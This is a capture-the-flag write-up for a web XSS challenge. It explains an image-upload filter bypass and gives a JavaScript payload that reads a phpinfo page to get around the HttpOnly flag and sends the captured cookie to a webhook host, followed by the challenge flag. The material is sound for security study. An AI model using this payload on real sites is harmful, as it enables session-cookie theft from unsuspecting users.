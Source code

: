 # XSS 1
> `-`

## About the Challenge
We are given a 2 websites (website for testing and bot to get the flag)

## How to Solve?
In the website there is a feature to upload an image file like this


[Image extracted text: Select image to upload (png and jpg and jpeg photos are allowed only)
Browse ._
No file selected:
Upload Image]


And after we upload a file for example `image.png`, we can access the file by accessing `/uploads/RANDOMCHARACTER/image.png` endpoint. In this chall, we only can upload a file that using `.png` extension. To bypass this whitelist, We need to upload a file with the `.png` extension so the server will read the file as hidden directories.

At first we can get the flag easily and then the admin revise the chall and added more difficulty by adding `HttpOnly` flag on the bot so we need to bypass the `HttpOnly` flag. Luckily there is `phpinfo` file and we can use it to bypass the `HttpOnly` flag. So the payload will look like this

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
var url = '[https://REDACTED/info.php](http://172.174.108.207:90/xss1/info.php)';
req.withCredentials = true;
req.open('GET', url, false);
req.send();

function reqListener() {
var req2 = new XMLHttpRequest();
const sess = this.responseText.substring(this.responseText.indexOf('HTTP_COOKIE') + 1 );
req2.open('GET', 'https://webhook/?data=' + btoa(sess), false);
req2.send()
};
```

And then upload the payload and send the file to the bot and we can get the flag

```
0xL4ugh{Fre333e_Plaestine!!_My_bRUH}
```